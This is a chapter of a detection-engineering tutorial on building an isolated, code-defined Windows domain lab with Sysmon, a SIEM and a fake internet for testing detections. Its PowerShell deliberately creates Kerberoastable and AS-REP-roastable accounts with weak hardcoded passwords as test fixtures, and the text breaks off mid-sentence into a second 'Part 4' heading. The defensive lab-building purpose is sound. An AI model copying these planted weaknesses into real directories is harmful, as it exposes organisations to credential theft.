








**Level:** Expert · **Track:** SOC & Blue Team · **Read time:** 225 min

This is Chapter 7 of the Detection Engineering notebook, and it closes the loop on everything the previous six chapters taught. You have written Sigma rules, instrumented endpoints with Sysmon and osquery, authored YARA signatures, built SPL and KQL detections, mapped all of it to MITRE ATT&CK, and wired the resulting alerts into SOAR playbooks. Every one of those chapters made the same quiet assumption: that you had somewhere safe to *run the attack* and *watch the rule fire*. This chapter builds that place, and then turns it into the instrument you use to answer the only question that ultimately matters — **does this detection actually work?**

## Why This Matters

There is a specific, career-defining moment that separates a detection engineer from someone who writes detection-shaped text. It happens the first time you take a rule you were certain about, detonate the technique it targets against a real host, and watch nothing happen.

It happens more often than anyone admits. Vendor and community studies of enterprise detection coverage keep producing the same shape of result: organisations self-report detection for the large majority of the ATT&CK techniques they care about, and when those detections are actually tested by emulation, only a fraction fire. The gap is rarely incompetence. It is the accumulation of small, invisible failures — the log source was enabled on 60% of hosts rather than 100%; the field was named `process.command_line` in the shipper but `CommandLine` in the rule; the index the rule searched had 7-day retention while the schedule ran a 30-day lookback; the technique had four variants and the rule matched one; a well-meaning tuning exclusion added eight months ago silently swallowed the whole rule. Every one of those is discoverable in twenty minutes in a lab and undiscoverable in production until an incident finds it for you.

A detection lab is the answer. Not a nice-to-have, not a hobbyist's playground — it is the **test environment for a software product**, where that product happens to be your detection content. No serious engineering discipline ships code without somewhere to run it first. Detection engineering is one of the last security domains to internalise this, and the teams that have internalised it are the ones with honest ATT&CK heatmaps rather than aspirational ones.

Concretely, a lab gives you five things you cannot get any other way:

1. **Ground truth.** You know exactly what you ran, on which host, at what second. In production you are always inferring; in a lab you hold the answer key.
2. **Safe detonation.** You can run real credential-dumping tools, real beacons, real ransomware simulators — because the environment is isolated and disposable.
3. **Iteration speed.** Write rule → detonate → check → tune → repeat, a loop measured in minutes. In production that loop is measured in change-control tickets.
4. **Telemetry experimentation.** Want to know whether Sysmon Event ID 10 with a specific `GrantedAccess` mask really catches every LSASS-access variant? There is exactly one way to find out, and it involves running all the variants.
5. **Regression protection.** Detections rot. Vendors rename fields, agents change defaults, Windows changes an event schema in a feature update. A lab plus automated detonation gives you a regression suite.

The offensive tooling in this chapter — Atomic Red Team, CALDERA, Mimikatz, PurpleSharp — is used exclusively against machines you built, on a network you own, deliberately isolated from everything else. That framing is not a formality here: several of these tools will be flagged by your own EDR, and a couple can genuinely damage a network if pointed at production. Build the isolation first, in Part 2, before installing a single offensive tool.

By the end of this chapter you will have a reproducible, code-defined lab with a Windows domain, full telemetry, and a SIEM; you will be able to detonate a technique on demand and trace it from process execution through raw event and normalised field to firing rule; and you will have a repeatable methodology plus a CI pipeline for testing coverage that produces numbers you would be willing to put in front of an auditor.

---

## Part 1: What a Detection Lab Actually Is

Strip away the tooling and a detection lab is three planes stacked on top of each other.

- **The target plane** — the systems you are pretending to defend. Windows domain controllers, member servers, workstations, Linux servers, containers, a cloud account. These exist to be attacked and to emit telemetry.
- **The telemetry and analysis plane** — the sensors on those targets (Sysmon, EDR agent, auditd, network taps) plus the platform that collects, normalises, stores and searches what they emit (Elastic, Splunk, Wazuh, Sentinel).
- **The adversary plane** — the machine you attack *from*, and the tooling that automates attacks: an attacker VM, Atomic Red Team, CALDERA, a C2 framework.



The critical design property is that **the adversary plane can reach the target plane, and nothing can reach the real internet except through a controlled path.** Everything else — which hypervisor, which SIEM, how many VMs — is preference. Get the isolation right and the rest is substitutable.

### The four maturity tiers of a lab

Not every lab needs to be a data centre. Match the tier to what you are actually trying to test.

| Tier | Composition | Host RAM | Build time | Good for | Cannot test |
|---|---|---|---|---|---|
| **T0 — Single box** | 1 Windows VM + Sysmon + Event Viewer or a local Elastic | 8 GB | ~1 hour | Event ID discovery, Sysmon config tuning, single-technique verification | Anything lateral, network, or identity based |
| **T1 — Mini domain** | DC + 1 workstation + SIEM VM | 24 GB | Half a day scripted | Kerberoasting, credential dumping, GPO abuse, most of Credential Access and Discovery | Realistic lateral movement, network detection at scale |
| **T2 — Realistic estate** | DC + 2–3 workstations + Linux server + Zeek/Suricata + full SIEM + EDR | 48–64 GB | 1–2 days with IaC | Full kill-chain emulation, network + endpoint correlation, purple team exercises | Cloud-native techniques, scale and performance behaviour |
| **T3 — Hybrid / cloud** | T2 + cloud account + Entra ID tenant + Kubernetes | Cloud spend | ~1 week | Cloud persistence, identity attacks, container escapes, cross-domain correlation | Very little — this is a production analogue |

**A pragmatic recommendation:** start at T1 and treat it as disposable. Most detection-engineering value — credential access, persistence, discovery, defence evasion, execution — is testable in a two-host domain. Move to T2 only when your rules start correlating across hosts.

### The single most important property: reproducibility

A lab you built by clicking through installers is a lab you will destroy once and never rebuild. That matters because **you will destroy it** — detonating malicious code is the entire point, and a contaminated host is a useless host.

The rule to internalise now: **if it is not in code, it does not exist.** Every VM, every domain join, every Sysmon config, every rule deployment must be expressible as a file in a git repository, so that `vagrant destroy -f && vagrant up` returns you to a known-good baseline. This is the difference between a lab you use weekly and one you built once for a screenshot.

**Red team relevance:** the same reproducibility discipline is what lets an offensive engineer test whether a new loader evades a specific EDR configuration — build, snapshot, test, revert, mutate, retest. Purple teams share one lab precisely because both sides need identical, resettable ground truth.

---

## Part 2: Isolation and Network Architecture — Do This First

A detection lab is a machine that intentionally runs hostile code. Treat the network design as a safety system, not a convenience.

### The three network modes, and when each is wrong

Every hypervisor offers roughly the same three modes under different names:

| Mode | VirtualBox | VMware | Proxmox equivalent | Reaches your LAN? | Reaches internet? | Verdict for a lab |
|---|---|---|---|---|---|---|
| Bridged | Bridged Adapter | Bridged | Linux bridge on the physical NIC | **Yes** | Yes | **Never** on a detonation host. Your sample is now on your home or corporate LAN. |
| NAT | NAT / NAT Network | NAT | Masquerading bridge | No inbound, yes outbound | Yes | Acceptable during the *build* phase only, disabled afterwards |
| Host-only / Internal | Host-only Adapter / Internal Network | Host-only / LAN Segment | Isolated `vmbrX` with no uplink | No | No | **Correct** for the detonation network |

The pattern that works in practice is a **dual-adapter build-then-isolate** approach:

- Adapter 1: host-only / internal network `10.10.10.0/24` — always on, the lab LAN where everything talks to everything.
- Adapter 2: NAT — enabled during build so Windows can activate, packages install and agents download, then **disabled** before any detonation.



### Simulated internet: INetSim and FakeNet-NG

Cutting the internet breaks a lot of behaviour you actually want to observe — DNS lookups, C2 check-ins, second-stage downloads. The fix is a **fake internet**: a VM on the lab network that answers every DNS query with its own address and serves plausible responses on every common port.

**INetSim from scratch.** INetSim is a Linux daemon that simulates common internet services (DNS, HTTP/S, SMTP, POP3, FTP, IRC, NTP, TFTP and more) for malware analysis. It is not a proxy — it *impersonates* the whole internet.

```bash
# On a dedicated Ubuntu VM at 10.10.10.99, attached only to the lab LAN
sudo apt update && sudo apt install -y inetsim
sudo nano /etc/inetsim/inetsim.conf
```

The three settings that matter:

```ini
# Bind to the lab-facing interface, not loopback (default is 127.0.0.1 — always wrong here)
service_bind_address    10.10.10.99

# Answer every DNS query with the INetSim host itself, so all C2 domains resolve here
dns_default_ip          10.10.10.99

# Allow enough concurrent children that a noisy sample does not exhaust the daemon
service_max_childs      20
```

```bash
sudo systemctl restart inetsim
sudo ss -tulpn | grep inetsim | head -8
```

```
udp   UNCONN 0  0    10.10.10.99:53     0.0.0.0:*    users:(("inetsim",pid=1841,fd=6))
tcp   LISTEN 0  10   10.10.10.99:21     0.0.0.0:*    users:(("inetsim",pid=1843,fd=6))
tcp   LISTEN 0  10   10.10.10.99:25     0.0.0.0:*    users:(("inetsim",pid=1845,fd=6))
tcp   LISTEN 0  10   10.10.10.99:80     0.0.0.0:*    users:(("inetsim",pid=1847,fd=6))
tcp   LISTEN 0  10   10.10.10.99:443    0.0.0.0:*    users:(("inetsim",pid=1849,fd=6))
```

Point every lab VM's DNS server and default gateway at `10.10.10.99`. Now a beacon calling `cdn-update-svc.example` resolves, connects, receives an HTTP 200, and produces a full, detectable network flow — without one packet leaving your machine.

**Blue team usage:** this is precisely how you generate realistic C2 traffic for testing Zeek and Suricata detections, and JA3/JA4 TLS-fingerprint rules, without operating real C2 infrastructure.

**FakeNet-NG** is the Windows-native equivalent (from Mandiant), run *on the infected host itself* rather than on a separate VM. It hooks the network stack and answers everything locally. Use it for single-VM T0 analysis where you cannot spare a second machine:

```powershell
# On the analysis VM, from an elevated prompt
C:\Tools\fakenet\fakenet.exe -c C:\Tools\fakenet\configs\default.ini
```

### Hard safety rules

> **Lab safety checklist — verify before every detonation session**
>
> - [ ] Detonation VMs have **no bridged adapter** — check the hypervisor UI, not the guest
> - [ ] Host firewall blocks inbound connections from the host-only subnet
> - [ ] **Shared folders, clipboard sharing and drag-and-drop are disabled** — these are documented cross-contamination and VM-escape paths
> - [ ] Every VM has a `clean-baseline` snapshot taken *before* the first sample ever runs
> - [ ] The hypervisor host is not domain-joined to anything real
> - [ ] Host backups and NAS mounts are not reachable from the lab subnet
> - [ ] Ransomware simulators run only on VMs with no mapped drives to real storage
> - [ ] Lab credentials are unique and never reused from anywhere real

The most common real-world lab accident is not a VM escape — it is a forgotten bridged adapter, or a shared folder mapped to the analyst's own `Documents` directory when a file-encryption sample runs. Both are prevented by the checklist above, and neither is recoverable afterwards.

---

## Part 3: Infrastructure as Code — The Foundation

Everything from here is defined in files. Three tools do the work, and you should know all three because they own different layers.

| Tool | Layer it owns | Language | Use it for |
|---|---|---|---|
| **Vagrant** | VM lifecycle on a local hypervisor | Ruby DSL (`Vagrantfile`) | Creating and destroying local VMs, networking, snapshots |
| **Terraform / OpenTofu** | Cloud and hypervisor API resources | HCL (`.tf`) | AWS, Azure, GCP, Proxmox, vSphere — anything with an API |
| **Ansible** | Configuration *inside* the OS | YAML playbooks | Domain join, Sysmon install, agent enrolment, GPOs, users |

The usual split: **Vagrant or Terraform builds the box; Ansible makes it a domain controller.**

### Vagrant from scratch

Vagrant is a CLI that turns a text file into running VMs. It downloads pre-built OS images (called "boxes"), configures networking and resources, and runs provisioning scripts — all from one file, with no clicking.

```bash
# Install on Debian/Ubuntu
wget -O- https://apt.releases.hashicorp.com/gpg | \
  sudo gpg --dearmor -o /usr/share/keyrings/hashicorp-archive-keyring.gpg
echo "deb [signed-by=/usr/share/keyrings/hashicorp-archive-keyring.gpg] \
  https://apt.releases.hashicorp.com $(lsb_release -cs) main" | \
  sudo tee /etc/apt/sources.list.d/hashicorp.list
sudo apt update && sudo apt install -y vagrant
vagrant --version
```

```
Vagrant 2.4.1
```

A minimal but real `Vagrantfile` for a two-host domain:

```ruby
# -*- mode: ruby -*-
Vagrant.configure("2") do |config|

  # --- Domain Controller ---
  config.vm.define "dc01" do |dc|
    dc.vm.box      = "gusztavvargadr/windows-server-2022-standard"
    dc.vm.hostname = "dc01"
    # private_network == host-only. There is no bridged adapter anywhere in this file.
    dc.vm.network "private_network", ip: "10.10.10.10"
    dc.vm.provider "virtualbox" do |vb|
      vb.memory = 4096          # AD DS + DNS needs 4 GB to be usable; 2 GB times out on promotion
      vb.cpus   = 2
      vb.customize ["modifyvm", :id, "--clipboard-mode", "disabled"]
      vb.customize ["modifyvm", :id, "--draganddrop",   "disabled"]
      vb.customize ["modifyvm", :id, "--nested-hw-virt", "on"]   # needed for Credential Guard tests
    end
    dc.vm.provision "shell", path: "scripts/promote-dc.ps1"
  end

  # --- Workstation ---
  config.vm.define "ws01" do |ws|
    ws.vm.box      = "gusztavvargadr/windows-11"
    ws.vm.hostname = "ws01"
    ws.vm.network "private_network", ip: "10.10.10.21"
    ws.vm.provider "virtualbox" do |vb|
      vb.memory = 4096
      vb.cpus   = 2
      vb.customize ["modifyvm", :id, "--clipboard-mode", "disabled"]
      vb.customize ["modifyvm", :id, "--draganddrop",   "disabled"]
    end
    ws.vm.provision "shell", path: "scripts/join-domain.ps1"
  end

  # --- SIEM / analysis host ---
  config.vm.define "siem" do |s|
    s.vm.box      = "bento/ubuntu-22.04"
    s.vm.hostname = "siem"
    s.vm.network "private_network", ip: "10.10.10.50"
    s.vm.provider "virtualbox" do |vb|
      vb.memory = 8192          # Elasticsearch will OOM-kill itself below 8 GB
      vb.cpus   = 4
    end
  end
end
```

The flags that matter, because Vagrant's defaults are wrong for a security lab:

- `private_network, ip: ...` — creates a **host-only** adapter with a static IP. This is your lab LAN. Vagrant always *also* creates a NAT adapter as the first interface for its own SSH/WinRM control channel; you disable that adapter manually before detonation.
- `--clipboard-mode disabled` / `--draganddrop disabled` — closes the two easiest host-contamination paths.
- `--nested-hw-virt on` — required to test Credential Guard, VBS, or run Hyper-V/WSL2 inside the guest. Without it, `lsass.exe` protection tests silently behave differently from production.
- `vb.memory` — the single most common cause of a "broken" lab is a DC with 2 GB of RAM that times out mid-promotion and leaves a half-configured domain.

Core Vagrant workflow:

```bash
vagrant up dc01                             # create, boot, provision
vagrant status                              # state of every machine in the file
vagrant winrm dc01 -c "hostname"            # run a command on a Windows guest
vagrant ssh siem                            # shell into a Linux guest
vagrant snapshot save dc01 clean-baseline   # snapshot one machine
vagrant snapshot restore dc01 clean-baseline
vagrant halt                                # graceful shutdown of all
vagrant destroy -f                          # delete everything, back to zero
```

`vagrant snapshot` is the command you will use most. **Snapshot before every detonation; restore afterwards.** A restore takes seconds; rebuilding a domain takes an hour.

### Ansible for the inside of the box

Ansible connects over SSH (Linux) or WinRM (Windows) and enforces a declarative desired state, with no agent required on the target.

```bash
sudo apt install -y ansible
ansible-galaxy collection install ansible.windows community.windows
```

An inventory for the lab:

```ini
# inventory.ini
[windows]
dc01 ansible_host=10.10.10.10
ws01 ansible_host=10.10.10.21

[windows:vars]
ansible_user=vagrant
ansible_password=vagrant
ansible_connection=winrm
ansible_winrm_transport=ntlm
ansible_winrm_server_cert_validation=ignore
ansible_port=5985

[linux]
siem ansible_host=10.10.10.50 ansible_user=vagrant
```

And the single highest-value piece of lab automation — a playbook that installs and configures Sysmon everywhere:

```yaml
---
- name: Deploy Sysmon with a detection-grade config
  hosts: windows
  gather_facts: yes
  vars:
    sysmon_dir: 'C:\Tools\Sysmon'
    sysmon_config_url: 'https://raw.githubusercontent.com/olafhartong/sysmon-modular/master/sysmonconfig.xml'

  tasks:
    - name: Ensure tools directory exists
      ansible.windows.win_file:
        path: "{{ sysmon_dir }}"
        state: directory

    - name: Download Sysmon from Sysinternals
      ansible.windows.win_get_url:
        url: https://download.sysinternals.com/files/Sysmon.zip
        dest: "{{ sysmon_dir }}\\Sysmon.zip"

    - name: Unzip Sysmon
      community.windows.win_unzip:
        src: "{{ sysmon_dir }}\\Sysmon.zip"
        dest: "{{ sysmon_dir }}"

    - name: Fetch sysmon-modular configuration
      ansible.windows.win_get_url:
        url: "{{ sysmon_config_url }}"
        dest: "{{ sysmon_dir }}\\sysmonconfig.xml"

    - name: Install Sysmon service with config
      ansible.windows.win_command: >
        {{ sysmon_dir }}\Sysmon64.exe -accepteula -i {{ sysmon_dir }}\sysmonconfig.xml
      args:
        creates: 'C:\Windows\Sysmon64.exe'

    - name: Ensure Sysmon service is running and automatic
      ansible.windows.win_service:
        name: Sysmon64
        state: started
        start_mode: auto
```

```bash
ansible-playbook -i inventory.ini playbooks/sysmon.yml
```

```
PLAY [Deploy Sysmon with a detection-grade config] *****************************

TASK [Ensure tools directory exists] *******************************************
changed: [ws01]
changed: [dc01]

TASK [Install Sysmon service with config] **************************************
changed: [ws01]
changed: [dc01]

TASK [Ensure Sysmon service is running and automatic] **************************
ok: [ws01]
ok: [dc01]

PLAY RECAP *********************************************************************
dc01  : ok=6  changed=4  unreachable=0  failed=0  skipped=0
ws01  : ok=6  changed=4  unreachable=0  failed=0  skipped=0
```

**Why `sysmon-modular` rather than the SwiftOnSecurity config:** SwiftOnSecurity's config is an excellent, heavily commented starting point and is what most people install first. Olaf Hartong's `sysmon-modular` is composed of per-technique modules already tagged with ATT&CK technique IDs in the rule names, so your Sysmon events arrive pre-annotated — `RuleName: technique_id=T1003.001,technique_name=LSASS Memory`. For a lab whose whole purpose is coverage measurement, that tagging is worth a great deal: it lets you join Sysmon output directly against the ATT&CK mappings you built in Chapter 5.

### Terraform when the lab leaves your laptop

Terraform (or its fork OpenTofu) is the right tool the moment the lab lives on a hypervisor with an API or in a cloud account. The same three commands drive every provider:

```bash
terraform init      # download providers, set up state
terraform plan      # show what will change, change nothing
terraform apply     # make it so
terraform destroy   # tear it all down — the reason cloud labs are affordable
```

A Proxmox example that clones a Windows template:

```hcl
resource "proxmox_vm_qemu" "ws01" {
  name        = "ws01"
  target_node = "pve01"
  clone       = "win11-template"
  full_clone  = true
  cores       = 2
  memory      = 4096

  network {
    model  = "virtio"
    bridge = "vmbr9"       # isolated bridge: no physical uplink attached
    tag    = 10            # VLAN 10 = lab LAN
  }
}
```

`bridge = "vmbr9"` with no uplink is the Proxmox expression of "host-only". The isolation decision from Part 2 is a single line of code here — which is exactly why it belongs in code.

**Cost discipline for cloud labs:** always pair `terraform apply` with a scheduled `terraform destroy`, or you will discover that a forgotten `t3.large` and a NAT gateway cost more per month than the training budget that funded them.

---

## Part 4: Building the Domain — A Realistic Target Estate

A lab that is one unpatched Windows box teaches you very little, because almost nothing interesting in ATT&CK happens on a single host. Credential access matters because credentials unlock *other* machines; persistence matters because it survives *across* reboots and hosts; lateral movement is definitionally multi-host. You need a domain.

### Promoting the domain controller

The `promote-dc.ps1` script referenced in the `Vagrantfile`:

```powershell
# scripts/promote-dc.ps1
$ErrorActionPreference = "Stop"

# Static IP on the lab adapter; DC must be its own DNS server
$if = Get-NetAdapter | Where-Object { $_.Name -like "*Ethernet 2*" }
New-NetIPAddress -InterfaceIndex $if.ifIndex -IPAddress 10.10.10.10 `
  -PrefixLength 24 -DefaultGateway 10.10.10.99 -ErrorAction SilentlyContinue
Set-DnsClientServerAddress -InterfaceIndex $if.ifIndex -ServerAddresses 127.0.0.1

# Install the AD DS role. -IncludeManagementTools gives you RSAT/ADUC on the box.
Install-WindowsFeature -Name AD-Domain-Services -IncludeManagementTools

# Promote to first DC in a new forest.
# DomainMode/ForestMode WinThreshold == 2016 functional level.
$safeMode = ConvertTo-SecureString "LabSafeMode!2024" -AsPlainText -Force
Install-ADDSForest `
  -DomainName "lab.local" `
  -DomainNetbiosName "LAB" `
  -ForestMode "WinThreshold" `
  -DomainMode "WinThreshold" `
  -InstallDns:$true `
  -SafeModeAdministratorPassword $safeMode `
  -NoRebootOnCompletion:$false `
  -Force:$true
```

Flag notes, since each of these bites people:

- `-InstallDns:$true` — AD is unusable without integrated DNS. Skip it and every domain join fails with an unhelpful error.
- `-SafeModeAdministratorPassword` — the Directory Services Restore Mode password. Mandatory, non-interactive only if you pass it as a `SecureString`.
- `-ForestMode "WinThreshold"` — sets the 2016 functional level. Choose deliberately: some attacks (and some mitigations, like the 2019+ LDAP signing defaults) depend on it.
- `-NoRebootOnCompletion:$false` — reboots automatically, which is what you want in an unattended script.

### Populating the domain so it looks real

An empty domain with two accounts detects nothing interesting and produces no false positives — which sounds convenient and is in fact the problem. **Your tuning is only as good as your baseline noise.** Create users, groups, service accounts, SPNs, group memberships and nested privilege.

```powershell
# scripts/populate-domain.ps1
Import-Module ActiveDirectory
$pw = ConvertTo-SecureString "LabPassw0rd!" -AsPlainText -Force

# Organisational units
New-ADOrganizationalUnit -Name "LabUsers"    -Path "DC=lab,DC=local"
New-ADOrganizationalUnit -Name "LabServers"  -Path "DC=lab,DC=local"
New-ADOrganizationalUnit -Name "ServiceAccts" -Path "DC=lab,DC=local"

# 25 ordinary users - these generate the benign logon noise you tune against
1..25 | ForEach-Object {
    New-ADUser -Name "user$_" -SamAccountName "user$_" `
      -UserPrincipalName "user$_@lab.local" `
      -Path "OU=LabUsers,DC=lab,DC=local" `
      -AccountPassword $pw -Enabled $true
}

# A kerberoastable service account: weak password + registered SPN.
# This is the single most useful deliberate weakness in a detection lab.
New-ADUser -Name "svc_sql" -SamAccountName "svc_sql" `
  -UserPrincipalName "svc_sql@lab.local" `
  -Path "OU=ServiceAccts,DC=lab,DC=local" `
  -AccountPassword (ConvertTo-SecureString "Summer2023" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true
Set-ADUser -Identity svc_sql -ServicePrincipalNames @{Add="MSSQLSvc/sql01.lab.local:1433"}

# An AS-REP roastable account (pre-auth disabled)
New-ADUser -Name "svc_backup" -SamAccountName "svc_backup" `
  -AccountPassword $pw -Enabled $true -Path "OU=ServiceAccts,DC=lab,DC=local"
Set-ADAccountControl -Identity svc_backup -DoesNotRequirePreAuth $true

# Tiered admin structure, so privilege escalation paths are meaningful
New-ADGroup -Name "Tier1-Admins" -GroupScope Global -Path "OU=LabUsers,DC=lab,DC=local"
Add-ADGroupMember -Identity "Tier1-Admins" -Members user7,user12
Add-ADGroupMember -Identity "Domain Admins" -Members user3
```

**Why deliberately weak service accounts:** `svc_sql` with the password `Summer2023` and an SPN is Kerberoastable in under a minute. That is not a flaw in the lab, it is the *test fixture*. You cannot verify a Kerberoasting detection without something to Kerberoast, and you want

## Part 4: Prebuilt Lab Frameworks — Stand on Shoulders

Before hand-rolling everything, know the projects that have already solved most of it. Each encodes hundreds of hours of someone else's yak-shaving. Pick based on what you want to test, not on which is most famous.

| Framework | What it builds | Telemetry / SIEM | Best for | Trade-off |
|---|---|---|---|---|
| **DetectionLab** (Clark) | 4-host Windows domain (DC, WEF, Win10, logger) | Splunk + Sysmon + osquery + Velociraptor + Zeek + Suricata | Fast, complete endpoint+network detection lab | Heavier; original repo archived — use community forks |
